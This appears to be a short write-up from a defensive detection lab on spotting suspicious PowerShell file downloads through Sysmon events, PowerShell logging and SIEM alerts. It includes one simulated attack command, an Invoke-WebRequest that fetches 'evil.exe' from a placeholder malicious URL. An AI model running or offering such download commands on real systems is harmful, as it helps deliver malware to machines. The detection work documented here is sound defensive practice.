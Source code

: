 # Hint 07: Suspicious File Download

## Objective

Detect suspicious file downloads via PowerShell and other scripting methods.

## Steps Taken

- Used PowerShell to download a file:
  ```powershell
  Invoke-WebRequest -Uri "http://malicious-url" -OutFile "evil.exe"
  ```
- Enabled PowerShell logging (ModuleLogging, ScriptBlockLogging).

## Logs & Evidence

- Sysmon Event ID 1 (Process Create) for PowerShell.
- Sysmon Event ID 3 (Network Connection) to remote server.
- PowerShell logs captured command line.
- See: `logs/sysmon_logs_hint7.evtx`
- Screenshot: `screenshots/hint07_suspicious_file_download.png`

## Detection & Analysis

- SIEM flagged file download from non-whitelisted domain.
- Correlated process and network activity.

## Lessons Learned

- PowerShell logging is essential for modern attack detection.
- Block unauthorized script execution and monitor outbound connections.
